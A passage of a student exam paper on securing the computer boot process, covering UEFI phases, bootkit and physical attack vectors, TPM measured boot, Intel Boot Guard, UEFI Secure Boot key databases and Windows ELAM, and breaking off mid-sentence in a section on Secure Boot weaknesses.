

# Techniques-for-Secure-System-Boot
Paper for mid-semester exam in IN2120 at Institute for Informathics, University of Oslo. Ended up scoring 98,8%.

Written by: [Igor](https://github.com/igormomc/), [Jonas](https://github.com/theVoxcraft) and [Kristian](https://github.com/kritjo)

Table of Contents
=================

[1 Introduction](#introduction)

[2 The boot process](#the-boot-process)

[2.1 Platform Initialization](#platform-initialization)

[2.1.1 SEC](#sec)

[2.1.2 PEI](#pei)

[2.1.3 DXE](#dxe)

[2.1.4 BDS](#bds)

[2.2 UEFI](#uefi)

[2.2.1 UEFI Boot Manager](#uefi-boot-manager)

[2.3 OS Loader](#os-loader)

[3 Attack vectors on the boot process](#attack-vectors-on-the-boot-process)

[3.1 Physical-based attacks](#physical-based-attacks)

[3.1.1 "Evil maid" attacks](#evil-maid-attacks)

[3.1.2 Cold boot attacks](#cold-boot-attacks)

[3.2 Specific components attacks](#specific-component-attacks)

[3.2.1 Platform initialization](#platform-initialization-1)

[3.2.2 Driver execution environment (DXE)](#driver-execution-environment-dxe)

[3.2.3 UEFI Drivers](#uefi-drivers)

[3.2.4 OS Loader](#os-loader-1)

[4 Measured boot & Trusted boot](#trusted-boot--measured-boot)

[5 Securing the UEFI startup](#securing-the-uefi-startup)

[5.1 Intel Trusted Execution Technology](#intel-trusted-execution-technology)

[5.2 Intel Boot Guard](#intel-boot-guard)

[5.3 AMD Platform Security Processor & Hardware Validated Boot](#amd-platform-security-processor--hardware-validated-boot)

[6 UEFI Secure Boot](#uefi-secure-boot)

[6.2 UEFI Secure Boot Databases](#uefi-secure-boot-databases)

[6.2.1 The Allowed Database (db)](#the-allowed-database-db)

[6.2.2 The Forbidden Database (dbx)](#the-forbidden-database-dbx)

[6.3 Safe updates of the DB and DBX databases](#safe-updates-of-the-db-and-dbx-databases)

[6.3.1 Storage of the databases](#storage-of-the-databases)

[6.3.2 Platform Key (PK)](#platform-key-pk)

[6.3.3 Key Exchange Keys (KEK)](#key-exchange-keys-kek)

[6.4 The UEFI Secure Boot verification process](#the-uefi-secure-boot-verification-process)

[6.5 Passport control analogy](#passport-control-analogy)

[7 Securing the OS loader](#securing-the-os-loader)

[7.1 Early Launch Anti-Malware (ELAM)](#early-launch-anti-malware-elam)

[7.2 OS Integrity check](#os-integrity-check)

[7.3 Measured boot](#measured-boot)

[8 Secure boot chain & windows implementation](#secure-boot-chain--windows-implementation)

[8.1 UEFI](#uefi-1)

[8.2 ELAM](#elam)

[8.3 Windows Measured Boot](#windows-measured-boot)

[8.4 Windows Trusted Boot](#windows-trusted-boot)

[9 Weaknesses in Secure Boot](#weaknesses-in-secure-boot)

[9.1 Intel Boot Guard](#intel-boot-guard-1)

[9.2 UEFI Secure Boot](#uefi-secure-boot-1)

[9.3 Trusted Boot](#trusted-boot)

[9.4 Windows OS Loader](#windows-os-loader)

[10 Proof of concept](#proof-of-concept)

[11 Conclusion](#conclusion)

[12 References](#references)

[13 Appendix A](#appendix-a)

[14 Appendix B](#appendix-b)

**Abstract**

In this paper we are exploring some of the general techniques that can
be implemented in order to secure the boot process of a system. The boot
process of a system begins when the system is powered on and ends when
the operating system is started. The objectives of this paper are as
follows:

-   Explain and discuss how the different methods for attaining a secure
    boot process work together.

-   Show that it is important to secure the boot process of a system.
    This is demonstrated by discussing how the different components are
    vulnerable and through a proof of concept.

-   Discuss weaknesses, problems and vulnerabilities with
    implementations of secure boot processes and how these can be
    mitigated.

We have found that:

-   No single technique can be implemented to secure the whole boot
    process of a system.

-   The security of the boot process is not stronger than the weakest
    link.

-   Each component of the boot process should verify its subsequent
    component(s), starting with a trusted component.

Introduction
============

An insecure boot process will lead to an insecure system. This is due to
the possibility of malware being launched in the boot process, which can
render the system infected, unbeknownst to anti-malware software. We
seek to answer how you can secure the boot process of the system.

Secure Boot is a term used for all techniques that help to secure the
boot process - from platform initialization to the point where the
operating system (OS) is loaded. The term is ambiguous, as it is
sometimes used to describe specific implementations, such as *UEFI
Secure Boot*. In this paper, we will distinguish between the different
implementations and use the term Secure Boot in reference to the general
protection of the boot process.

Due to the general complexity and variation on different
implementations, we will assume that all systems are Unified Extensible
Firmware Interface (UEFI) compliant computers, as per the UEFI \[1\] and
UEFI PI \[2\] specifications. According to UEFI Forum \[1\], the UEFI
specification "... describes an interface between the operating system
(OS) and the platform firmware".

The boot process
================

The general boot process of a computer consists of three main steps.
First, the platform is initialized, this is the Platform Initialization
step (PI) as defined in the UEFI PI specification \[2\]. The PI step
starts when the system is powered on. After the platform is initialized
in the PI step, the UEFI Boot Loader will load UEFI images[^1], such as
the OS Loader, which in turn will launch the OS along with its required
components.

Platform Initialization
-----------------------

The platform initialization is divided into four phases, Security (SEC),
Pre-EFI initialization (PEI), Driver Execution Environment (DXE) and
Boot Device Selection (BDS)\[2\].

### SEC

When a computer is started it first enters the SEC phase. The SEC phase
does the initial initialization of the system, such as delivering power
to the components and initializing temporary memory (e.g. CPU cache).
The SEC phase also serves as the system's Root of Trust. As we will
explore later, some manufacturers choose to implement verification of
the PEI in the SEC phase. After the minimum initialization, the phase is
completed, and the flow continues to the PEI phase.

### PEI

The PEI phase is responsible for a minimal initialization of the
hardware, so that it is ready for the DXE phase. The phase consists of
the PEI Foundation and PEI modules (PEIM). PEI Foundation is specific to
the processor architecture of a specific system and is responsible for
executing PEIMs. The PEIMs are vendor-specific initialization modules,
for the different hardware components, such as the RAM and chipset. The
execution code for the PEI phase is stored on the IBB (Initial Boot
Block) implemented by the Original Equipment Manufacturer (OEM).

### DXE

The main initialization of the system takes place in the DXE phase. The
execution code for the DXE phase is stored on the OBB (OEM Boot Block)
implemented by the OEM. DXE, after its initialization, provides services
through which UEFI applications can interact with hardware devices.
These services provide an abstraction so that UEFI Images does not have
to implement specific hardware support. DXE also initializes SMM (System
Management Mode), which operates with the highest system privileges, and
is used for management tasks such as power management. It is worth
taking note of, as it can be exploited in order to create UEFI rootkits,
as we will explore in more detail in section 9.

### BDS

After all the DXE drivers have been executed in the DXE phase, the boot
flow moves into the BDS phase. Here the firmware will implement the UEFI
boot manager\[2\], as defined in the UEFI Specification \[1\] section
2.1. The goal of the BDS phase is to boot from one of the discovered
boot devices.

UEFI
----

It is important to note that UEFI is an interface specification, and
only an interface specification\[3\]. It strictly provides a
specification that allows the operating system to communicate with the
system firmware. This is further restricted to communication regarding
the boot process. This is because when the boot is completed, the OS
takes control of the hardware, and communicates with it directly,
through its own drivers. It is also worth noting that UEFI has evolved
from Intel's EFI, therefore some components of the UEFI specification
still hold the name EFI instead of UEFI.

### UEFI Boot Manager

As briefly mentioned in section 2.1.4, UEFI specifies a boot manager.
The boot manager can load UEFI Images, such as UEFI applications and
drivers. The drivers can be restricted to the boot process, such drivers
are called UEFI Boot Service drivers, and they will exit once the OS
Loader calls the *ExitBootServices()* method. UEFI Drivers that are
active, also after the boot process, are called UEFI Runtime drivers.
Such drivers can be called by the OS. UEFI applications are different
from UEFI drivers as their memory and state are unloaded after the image
returns from its entry point \[3\]. The OS Loader is a UEFI application
that will transfer the firmware control over to the OS, through the
invocation of *ExitBootServices()*.

OS Loader
---------

As mentioned in the previous section, the OS Loader is a special UEFI
application. The OS Loader is responsible for finding out which
operating system to load, loading the operating system, and transferring
firmware control over to the operating system kernel[^2]. The OS Loader
implementations among different operating systems are not homogeneous.
For instance, Windows (Vista and later) has a split Boot Manager and
operating system loader, where the Boot Manager is "generic and unaware
of the specific requirements for each operating system" \[4\]. The Boot
Manager is responsible for finding out which operating system loader
should be launched, either by a predefined priority list, or by user
input. On the other hand, the operating system loader is responsible for
the actual initialization of the Windows OS. A popular OS Loader for
Linux that does this differently is the GNU GRUB OS Loader. GNU GRUB
works both as a boot manager, and as an operating system loader.

Attack vectors on the boot process
==================================

Systems without any implementations of Secure Boot techniques will have
many exploitable attack vectors in the boot process, these systems were
commonplace before UEFI Secure Boot was introduced in 2012[^3] and later
implemented by original equipment manufacturers (OEM's).

Without securing the boot process it is virtually trivial (as shown in
section 10) for an agent with mal intent to exploit this and create
malware that resides at a level inaccessible to some anti-malware
software, this is called a rootkit (or bootkit).

Malware that has the ability to persist through reboots and has high
privilege levels are usually called rootkits. The term rootkit is a
general term for this -- although bootkits could be a more accurate term
as we are describing malware in the boot process.

Rootkits and bootkits are particularly dangerous for a system, as they
can attain kernel-level privileges and usually can evade most
traditional methods of detecting and removing malware. These are
persistent and can in some cases even persist through an OS reset or
even hardware (ex: hard disk) change \[5\].

The reason that UEFI rootkits (bootkits) can evade most traditional
methods of detecting and defending against malware, is due to the fact
that they are started before the OS. As they are started before the OS,
they could change how the OS functions. For example, by injecting
malicious kernel drivers which will launch at OS startup, defense
processes such as Windows Driver Signature Enforcement would be bypassed
\[6\]. These changes to the kernel could enable false reporting to
anti-malware software, so that it is unable to detect the infection.

UEFI rootkits (bootkits) can reside on EFI Partition on a boot hard
drive and overwrite some OS Loader code to load the malicious code or
write itself down as runtime driver (driver rootkit). This will grant
the malware kernel-level privileges, and from this point, it is up to
the malware what it wants to do. Some examples are:

-   Sniff data from the user

-   Encrypt all user data and demand cryptocurrency from the user

-   Make the device compliant in a bot network.

The EFI Partition isn't the sole possible host of these types of attacks
- other EFI blocks that could be affected by such threats would be:

-   Platform initialization components (PEIM)

-   Driver execution environment (DXE)

-   UEFI drivers and other executables

-   OS Loader

*Note: The attack specifics of each component are explained more
thoroughly in section 3.2.*

More advanced anti-malware can detect rootkits on the EFI partition of a
connected hard drive, but in theory, it is also possible for malware to
exploit other connected chipsets on the device and write malicious code
to that component -- which runs at boot. Components that could source
the malware:

-   Hard drives, or other persistent data storage. This could be
    attacked through weaknesses in software and OS, but also through an
    already infected device or a supply chain attack (worst-case
    scenario).

-   Option ROM on expansion cards, some implementations of UEFI Secure
    Boot will not authenticate option ROMs because of backward
    compatibility \[7\].

-   Fallback OS Loaders, such as USB Live boot devices and network
    booting.

Physical-based attacks
----------------------

Physical-based attacks bypass the security that the operating system
provides, although Secure Boot can mitigate these attacks.
Physical-based attacks are relatively harder for attackers to exploit
but also harder to secure against.

### "Evil maid" attacks

"Evil maid" attacks are attacks where an attacker has physical access to
a system, where they permanently or temporarily add an attack vector to
a vulnerable machine -- e.g., an evil peripheral device (such as a USB
device) or other evil plug-in cards (e.g., PCI card).

These can do something simple as emulating a USB-based "human interface
device" (HID) such as a keyboard and running commands as the user. These
attacks need to be handled and secured by the operating system and, in
many cases, also anti-malware software.

**Live boot USBs**

Live boot USB can be used to temporarily install a guest operating
system.

Disk encryption can be used to encrypt user data from a temporary
operating system on the machine.

**Option ROM**

Plug-in cards can also have might have built-in EFI executables that
could be a source of infection.

A common vulnerability on modern chipsets allows unsigned Option ROM to
be executed, even with UEFI Secure Boot enabled.

### Cold boot attacks

Cold boot is a type of side-channel attack which circumvents the usual
security measures to extract sensitive information. A cold boot attack
requires temporary physical access to perform a memory dump. This can be
done even after a machine has been completely turned off because of
*data remanence* of the memory modules; DRAM will remain readable for a
period after -- up to 90 minutes in some cases \[8\]. One method
involves booting a lightweight operating system from a removable disk
(e.g. USB device) and dumping the memory. Another more invasive method,
which can be used if it's not possible to boot from USB, is done by
removing the memory module and dumping the memory from the said module,
this requires a specialized tool.

Cold boot attacks are harder to mitigate as they exploit a hardware
weakness rather than a software vulnerability. Disk encryption is not
effective against this type of attack, as the attack targets the
random-access memory -- and cold boot could be used to extract the disk
key, in the case that a system doesn't have a TPM.

Some effective countermeasures include secure memory-erasing before
shutting down and full memory encryption. Physical barriers like
soldering the memory to the board would make an attack harder and more
inaccessible, this is common with some laptop manufacturers.

Specific component attacks
--------------------------

### Platform initialization

The platform initialization phase sets up the trusted computing base[^4]
(TCB) for the rest of the boot process, although low-level and OEM
specific - it is a very important foundation to secure the PI. Attacks
on the platform initialization could be done with physical access and
extensive knowledge of the hardware \[9\]. For example by overriding the
default DXE block, so that UEFI Secure Boot is disabled.

### Driver execution environment (DXE)

Attacks targeting this component could be unaffected from UEFI Secure
Boot as it is executed alongside the UEFI code block. Infected code
blocks in this component would have kernel-level privileges and would be
hard to detect and secure against in later phases. With measured boot,
it is however possible to detect anomalies in this phase of the boot.

### UEFI Drivers

One of the responsibilities of a UEFI implementation is to run EFI
executables which include bootloaders, boot service drivers, runtime
drivers and EFI executables relating to other system components. *(See
2.2.1)*

Without any security measures, it is possible, through various attack
vectors, to infect the system and achieve arbitrary code execution (ACE)
by writing or overwriting an EFI image. Such attack vectors could be OS
vulnerabilities that grant unauthorized processes write access to the
EFI System Partition or "evil maid" attacks. UEFI bootkits are possible
by simply writing to the EFI partition: The UEFI bootkit "ESPecter" was
recently discovered to be infecting the EFI Partition System (ESP) on
Windows machines \[6\].

Many of these exploits are solved by the UEFI Secure Boot, which must
verify and subsequently abort unsigned EFI executables. As the UEFI
implementation trusts the TCB from prior phases, it would not mitigate
attacks on these.

### OS Loader

Attacks on the OS loader are similar to the UEFI Drivers as the OS
Loader is, like the drivers, just EFI images -- but usually located on
an external storage device. These EFI images (bootloader or relevant
early runtime drivers) could be overwritten and infected by malware, or
by a live boot device in an "evil maid" attack. Microsoft's Early Launch
Anti-malware (ELAM) is an attempt to catch malware launched at this
stage.

Trusted boot & Measured boot
============================

Many of the Secure Boot methods we will explore later, are primarily
concerned with the integrity of the system and preventing malware to
execute. It is however worth mentioning how we can truly trust that the
system has booted in a secure manner. The Trusted Boot (often referred
to as Measured Boot) process' primary focus is to allow attestation of
the boot process after the OS is loaded \[10\]. However, it is also
possible to use the attestation during the boot process, for example,
the OS Loader can use this process to check that the PEI phase can be
trusted.

Trusted Boot, as defined by TCG (Trusted Computing Group), has two
different specifications. One of them is specific to UEFI platforms and
makes use of the TPM (Trusted Platform Module) as the root of trust for
storage and reporting. We will focus on this implementation (TCG EFI
Platform Specification for TPM Family 1.1 or 1.2), as it is specific to
UEFI platforms, and as mentioned in the introduction we assume that all
systems are UEFI compliant.

The Trusted Platform Module, or TPM in short, is a standard that defines
the specification for a system component, which state is separate from
the rest of the system. The TPM can only communicate with the system
through the protocols as defined in the specification \[11\].

The TPM can be implemented as a physical computer-on-chip, as a part of
another physical chip or in software. All TPM implementations must have
some platform configuration registers (PCR), these are volatile memory
registers, which can only be updated using the PCR extend or- Reset
functions. The PCRs used by Trusted Boot (PCR index 0-15 \[12\]) can
only be extended and is only reset on TPM reset (reboot). The
Root-of-Trust for Measurement (RTM) is the first executed code on the
firmware boot block, and it will measure itself into the PCR \[11\]. The
RTM will measure all other components into the PCR using the PCR extend
function. This function takes whatever data is in the PCR right now,
concatenates it with the new measurement, hashes it and stores it back
in the PCR.

Now, why is it useful to have this hash value in the PCR, and what can
we use it for? The Hash alone provides little meaningful information,
therefore the Trusted Computing Group specifies an Event Log \[12\]. The
event log shall contain one event entry for each measurement made by the
RTM. The event entries contain information about which event was
measured, the hash value and its index for measurement into the PCR. The
Event Log is passed on to the operating system and can therefore not be
trusted. As you can see, we need both the PCR (trusted, but little
information) and the Event Log (not trusted but provides more
information) for the measurements to be of any use.


Figure 4:1

Figure 4:1 shows how each component in the boot process can be measured
before it is executed. The measurements are concatenated with the
current PCR value, hashed and stored back to the PCR. The measurements
are also appended to the Event Log. As mentioned, the RTM is the
component that does the measurement, it is therefore crucial that we can
trust the RTM. A basic implementation could be that the PEI is the RTM,
but as discussed in 3.2.1 the PEI cannot be trusted. A better
implementation would be to use the ACM (see 5.2) from the SEC phase as
the RTM. The figure shows an implementation using Intel TXT ACM as RTM
to measure PEI.

Let's look at a use case for Trusted Boot:

-   Alice is working for Company Inc.

-   Alice has a company laptop PC, with TPM PC-TPM and OS PC-OS.

-   Company Inc. is working with classified government data.

-   The classified data is stored on server CS.

Alice is working from home and needs to access the data on server CS.
The consequences for unauthorized access to the data would be severe,
and Company Inc. requires Trusted Boot with remote attestation before an
endpoint device can access the data on CS.

1.  PC sends a request to CS.

2.  CS requests the PCR value from PC-TPM, using the PCR Quote function.

3.  PC-TPM replies with a message containing the PCR value, signed with
    the TPM Attestation Key.

4.  CS uses the PC Attestation Public key to verify the hash.

5.  CS requests the Event Log.

6.  PC-OS replies with the Event Log.

7.  CS checks whether the Event Log matches RIM[^5], if it does, it has
    not been tampered with.

8.  CS replays the events from the PC Event Log and checks if the hash
    matches the hash from step 4, if it does, the Event Log -- and the
    computer -- can be trusted.

9.  PC gets access to the data on CS.

Note that in the real world, the attestation server would most likely be
a different host than the server containing the data. In this case, the
CS would use the attestation server to authenticate the client.

Securing the UEFI startup
=========================

As the UEFI Secure Boot relies on a trusted foundation, such as the
platform initialization and the code block that implements UEFI. Since
it implicitly trusts OEM platform firmware to be secure, it makes this
foundation a valuable target for attackers. Intel Trusted Execution
Technology (Intel TXT) secures this part of the boot process through
Intel Boot Guard which trusts immutable microcode embedded on the CPU.

Intel Trusted Execution Technology
----------------------------------

Intel TXT's main goals are to check the authenticity of its platform and
OS, to secure and assure a trusted environment for the operating system
and to provide the OS additional security capabilities \[14\]. One of
the features we are interested in is Intel Boot Guard, which Intel TXT
includes.

Intel Boot Guard
----------------

Intel Boot Guard roots its trust in hardcoded microcode on the CPU
called the *Authenticated Code Module Key*, or ACM Key - the
Authenticated Code Module (ACM) is verified with this key, this module
in turn verifies the Initial Boot Block (IBB) and then the OEM Boot
Block (OBB). The IBB's main responsibility is to verify the OBB and
initialize and load it into memory.

The ACMs verify the OEM Key Hash which is stored in Field Programmable
Fuses[^6] (FPF). The OEM Key Hash is used to verify the subsequent
components in the platform initialization phase. This means that the IBB
is verified by a key set in hardware, and is therefore more secure than
implicitly trusting the SEC phase.

AMD Platform Security Processor & Hardware Validated Boot
---------------------------------------------------------

AMD's implementation of technology similar to Intel Boot Guard for
securing the whole boot process is called AMD Validated Boot (AMD HVB)
and, like Intel's TXT, it is a part of the AMD Secure Boot.

Hardware Validated Boot is a technology to attain a secure boot, it
roots its trust in an immutable hardware ROM ("read-only memory") chip
called the AMD Platform Security Processor (PSP), which in turn verifies
the system's firmware (OBB) \[15\].

The initial block for AMD PSP is verified against a master key fused on
the CPU, contrary to Intel's TXT the AMD PSP does not rely on the
Platform Controller Hub (PCH) on the system and gets its primary key
directly from the CPU \[16\]. Intel's implementation uses the PCH to get
the primary key, but it's verified against the ACM.

UEFI Secure Boot
================

In a nutshell, UEFI Secure Boot is a system that verifies the code being
executed from the computer\'s UEFI firmware is safe, before the code is
executed. When something runs before the operating system has begun its
loading it would be hard to catch harmful applications, leading to the
possibility that the system becomes compromised. This is because it
wouldn't matter if you used an antivirus program, the harmful UEFI
application/driver could hide itself from the OS, so that it is not
possible to detect it, as seen in section 3.

UEFI Secure Boot works with a combination of checksums and signatures
that are converted to unintelligible text, in other words, cryptographic
text. So, for every program that is being started in the boot process,
for example, the OS loader will come with its own signature that must be
verified by UEFI Secure Boot before allowing it to execute.

That said you could technically (in most OEM implementations) turn off
the UEFI Secure Boot functionality, but this would not be suggested as
this can make your system very vulnerable to harmful exploits. This
could also be an attack vector if a malicious actor has physical access
to your device, and the OS does not require UEFI Secure Boot.

Several vulnerabilities pertaining to disabling and bypassing the UEFI
Secure Boot have been discovered in different OEM implementations,
allowing for many new attack vectors. This will be further explained in
section 9.

UEFI Secure Boot Databases
--------------------------

### The Allowed Database (db)

db is a database with allowed certificates (X.509) and hashes.
(SHA-256)~~.~~ The database is utilized to validate signed UEFI
binaries, as well as unsigned binaries through their hash. To update the
db, the update must be signed by a KEK, as explained in 6.3.3.

### The Forbidden Database (dbx)

dbx on the other hand is the opposite, this is a database with known
forbidden certificates (X.509) and hashes (SHA-256). Updates have the
same authentication requirements as for updates to db.

Why do we need this database when we already have the allowed database?
The db does typically not contain many certificates/hashes, as such, if
an image has been signed, and it is later discovered that the image is
in fact malicious, if we were to secure the system by removing the
signing certificate from the db, all other images signed by this
certificate would have to be signed again. This would be a tedious
process, and it is much simpler to add the hash of the image to the dbx.

Safe updates of the DB and DBX databases
----------------------------------------

To understand how UEFI Secure Boot can update its databases as safely as
possible we need to go through the process step by step.

### Storage of the databases

Before your PC is deployed, the OEM will store the UEFI Secure Boot
databases (db, dbx and KEK) on the pc. These databases will at the time
of manufacturing be stored on the firmware nonvolatile RAM(NV-RAM)
\[17\].

### Platform Key (PK)

The reason we have Platform Key (PK) is to make credentials between the
system owner and the firmware. The private part of the platform key is
used to sign updates to Key Exchange Keys.

The PK is split into two parts, one private key, and one public key. The
OEM is responsible for generating the PK, the public part is stored on
the platform, and the private part is kept by the OEM \[18\]. It is also
possible for the actual owner of the system to override the OEM PK and
enroll their own. Any update to the PK variable has to be signed by the
current PK, if there is a current PK. It is also possible for the OEM to
implement a platform specific way to clear the current PK and enter UEFI
Secure Boot setup mode so that a new PK can be enrolled.

Now, why would one want to override the OEM PK with your own? Starting
with Windows 8, Microsoft required OEMs to enable UEFI Secure Boot by
default, and also include Microsoft's Key Exchange Key. For users
wanting to use another OS, or custom drivers not signed by Microsoft,
you would have to either sign the image yourself, or add the vendor's
KEK. For both of those operations, you need access to the PK private
part. As you do not have the OEM PK private part, you would have to
enroll your own. You should however not use the PK for signing images
directly, only KEKs should be used for this. This is due to the fact
that the PK private part can authenticate updates to the PK variable,
and as such a UEFI image that is signed with the PK could tamper with
the PK variable programmatically \[18\].

### Key Exchange Keys (KEK)

To ensure that malicious actors cannot feed the databases with
certificates and hashes, we got KEK, Key Exchange Keys. The private part
is being used to sign updates to the db and dbx database. UEFI Secure
Boot is made in a way that it will not allow the databases to update if
it\'s not signed from a KEK. The KEKs can be enrolled by the OEM while
the platform is in setup mode (before the PK has been enrolled) \[18\].
Once the PK is enrolled, altering the KEK database requires an
authenticated update, signed by the PK private part, rendering it
practically impossible, as the PK should never be on the system and is
kept by the OEM.

While the reason for the PK is to have trust between the system owner
and the firmware, we got the KEK to make that same trust but between the
OS and the firmware. The KEK is simply authorizing modification to the
db and dbx databases. If KEK doesn't allow for modification the two
databases will not change, at least per the specification.

Now, why do we need the KEKs, when we already have the PK? Imagine this
scenario: the system owner (Alice), wish to have two operating systems
on her computer (Windows and Ubuntu) which is made by an OEM (Lenovo).
The two OS vendors (Microsoft and Canonical) would want to allow
different images, and have different forbidden hashes/certificates. If
we only had the PK, it would have to sign each update to the databases
itself, and Microsoft could for example not add a new forbidden hash,
without Alice's approval (or Lenovo if she did not enroll her own PK).
This would clearly be inefficient. What about only KEK, and no PK? If
the computer came from Lenovo with only Windows, and Alice would later
like to add Ubuntu, Microsoft would have to approve that the Canonical
certificate is added as a KEK. Why should Microsoft have to approve
which OSes Alice chooses to install? This would not be a good idea.


Figure 6:1

The UEFI Secure Boot verification process
-----------------------------------------

When secure boot is enabled, images are only allowed to execute when all
the following conditions are met:

-   The signing certificate is not in dbx.

-   The image hash is not in dbx.

-   The signing certificate is in db OR the image hash is in db.

An image could have multiple signatures. In this case only one signing
certificate or image hash has to be in db, but no signing certificates
or image hashes can be in dbx. This is for instance beneficial if the
same image is used with different OSes and the image developer does not
know which OS you have installed. You would only need one of the OSes to
run the image. If there is a vulnerability in the image and you have
multiple OSes, the first OS to add the image hash to the dbx would veto
the others. For example, if you have both RHEL and Ubuntu, and they use
the same OS Loader, if Red Hat discovers a vulnerability in the OS
Loader, they could add the hash to the dbx. This is a good measure, as
the image would otherwise be authorized due to the fact that Canonical
still approves the image.

Passport control analogy
------------------------

You can think of UEFI Secure Boot like passport control. When a person
tries to enter a country then they will be checked if they are allowed
into the country. Then check with the passport if it matches the person.
The same you can make of the UEFI Secure Boot. If a program wants to
execute in the boot process, then the UEFI Secure Boot must check the
signature (passport information) with db (allowed countries). If this
matches, and is not in dbx (terrorist-list) it will allow the program to
execute (enter the country).

If we now imagine that we skip the pass control and let everyman enter
the country it would allow whoever to enter and then also terrorist and
unwanted people who will maybe cause damage to the country, and we would
lose control over the country. The same would happen with the UEFI
Secure Boot. If we would disable this, then it would allow every program
that wanted to be executed to run. This would allow many programs that
want to harm your computer to attack and make damage. Therefore, as
it\'s important to check everyone who enters a country it\'s important
to have a UEFI Secure Boot to verify every program before it is
executed.

Securing the OS loader
======================

As we have explored earlier, the OS loader is responsible for starting
the operating system, along with its required drivers, and taking
control of the hardware (handed over from UEFI). Without any security
mechanisms, any driver could be loaded, including malicious ones. As we
have seen in the previous section, it is therefore important that the OS
Loader also verifies drivers before they are executed. This has to be
handled by the OS Loader and not by UEFI, although the implementations
could be functionally similar.

Early Launch Anti-Malware (ELAM)
--------------------------------

Windows provides a module called Early Launch Anti-Malware (ELAM), which
makes it possible for approved third-party applications to do
verifications during the loading of the operating system and provide
protection before other third-party software has a chance to run.

Before the kernel launches a driver, ELAM will analyze the driver and
give one of four return values:

1.  The driver is a good driver.

2.  The driver is a bad driver (malicious driver).

3.  The driver is an unknown driver, meaning it is unknown to the ELAM.

4.  The driver is malicious but critical, meaning the OS is forced to
    boot with it if it is going to boot at all.

Based on the registry configuration, it will decide whether the driver
will be launched or not. By default, *good*, *unknown* and *bad but
critical drivers* are allowed to load. This can be changed by a system
administrator, from allowing all drivers to more restrictive options
(that might block a successful boot). To determine which setting this
should be on a particular system, the system owner should do an
assessment and weigh the increased risk level up against the impact an
incident will have. On first sight, the default setting might sound
idiotic, but if a boot-critical system driver is actually infected,
would you rather have the system not function at all? This assessment
should be done with the broader system landscape in mind, if you for
example have remote attestation, you could be certain that you can
identify the bad but critical drivers after the system is booted, and
access to non-public information can be blocked. However, if the system
has valuable sensitive information stored in plain text on the system,
and no remote attestation, it would most likely be a better idea to
block the bad but critical drivers.

The ELAM measures drivers on these four data points \[19\]:

-   Path to the driver

-   Registry path to service

-   Certificates related to the driver

-   Image hash

OS Integrity check
------------------

A method to further secure the bootloader is to do an integrity check on
the startup components, like drivers, files, keys, settings and
anti-malware, to see if they are corrupted or infected. On Windows this
is called *Trusted Boot*. *See section 8.4*

Measured boot
-------------

Measured Boot can be used to secure the whole boot process including the
OS Loader. The operating system, together with an attestation server,
can verify the system's health after booting - and prevent further
damage.

*See section 4 for more detail on measured boot*

Secure boot chain & windows implementation
==========================================


Figure 8:1

This section will summarize and chain these different technologies, as
it is used today, to try to attain a secure boot process.

During the SEC phase of the initial boot sequence of a machine, the
Intel Boot Guard code is run. As explained in section 5, the boot guard
uses its immutable key to verify its way until hitting the OEM boot
block (OBB) which in this example implements the UEFI specification
flawlessly including the UEFI Secure Boot.

UEFI
----

In this stage, if the firmware is successfully verified, the UEFI Secure
Boot takes over and checks all EFI drivers and other executables before
running them. Some of these drivers are run and then quit, others and
runtime drivers and run together with the OS and most importantly the OS
Loader (commonly referred to as the bootloader) is verified and run.

On the Windows platform, some additional security checks are set in
place related to the boot process: Measured Boot, ELAM and Windows
Trusted Boot (see 4.1, 7.1 and 7.2 respectively). These countermeasures,
together with UEFI Secure Boot provide a strong defense against early
launched malware.

ELAM
----

The Early Launch Anti-Malware module is launched before the main Windows
operating system is launched (as seen in figure 8:1) and provides hooks
for antimalware software to start protecting the operating system before
any other third-party software is run. This is an important protection
against rootkits and bootkits on the Windows platform \[20\]. Windows
Defender which is enabled by default on Windows uses ELAM to defend
against these types of attacks; other advanced third-party antimalware
can also make use of the ELAM hooks and design its defense against
early-launched malware.

Windows Measured Boot
---------------------

Alongside the whole boot process, *measured boot* is used to log the
startup process to the TPM and give information to the operating system
about the security of the system after boot. Measured Boot can be used
on Windows and be sent to a trusted attestation server to give a report
on the system's health, this can be used to quarantine and restrict a
machine on a network \[20\].

In the diagram above (Figure 8:1) we can see a secure boot chain when
using measured boot, Intel Boot Guard and UEFI Secure Boot on a system
with a TPM.

Windows Trusted Boot
--------------------

Windows Trusted Boot is an OS integrity checking stage. Trusted Boot
takes over after the UEFI Secure Boot. This checks the integrity of the
different components of the Windows OS, like drivers, startup files and
ELAM. If any component is corrupted the system refuses to boot, but this
system is self-repairing and can restore the components to a
satisfactory state \[20\].

 Weaknesses in Secure Boot
=========================

Intel Boot Guard
----------------

Intel Boot Guard is, as mentioned earlier, a method for verifying and/or
measuring the OEM's IBB, which is in turn used for verifying and/or
measuring the OBB. In theory, this might sound like a good technique for
securing the OEM firmware and verifying that it has not been modified.
The problem is not with the specification, but the implementations.

The OEM's public key hash should be stored in hardware using Field
Programmable Fuses (FPF). Security researcher Alex Matrosov has shown
that not every OEM sets the FPFs\[21\]. Combine this with the fact that
the same OEMs allow unprotected updates of the firmware, an attacker
could set the FPFs, blocking the possibility for further firmware
updates. As such, a bootkit could be permanently present in the system.
The very technology designed for protecting your system, could in
reality be helping an attacker maintain control over the system. Some
comments as to why the OEMs choose to do this will follow at the end of
section 9.2.

UEFI Secure Boot
----------------

In order to bypass the image verification provided by UEFI Secure Boot,
an attacker has to gain write access to the SPI flash, where the UEFI
firmware is located. This can be done by executing code in System
Management Mode (SMM) on the UEFI firmware through a kernel exploit
(e.g. through a direct exploit that can elevate its rights to
kernel-level or through a signed OS driver with kernel-level privileges)
\[22\]. SMM has read/write access to SPI by default. This can be blocked
by SPI write flash protection (PRx), however, very few vendors use this
type of protection \[21\], including Intel -- who designed the PRx
technology.

The attacker with write access to SPI can then update the UEFI method
implementation used by UEFI Secure Boot that verifies images so that it
always will return EFI\_SUCCESS. This will disable the verification of
images before they launch, rendering the following verification process
(OS Loader verifies kernel, which verifies OS) useless, as its Root of
Trust cannot be trusted.

One can only speculate as to why the OEMs would want to have such weak
implementations that allow unauthorized write to SPI, and FPF
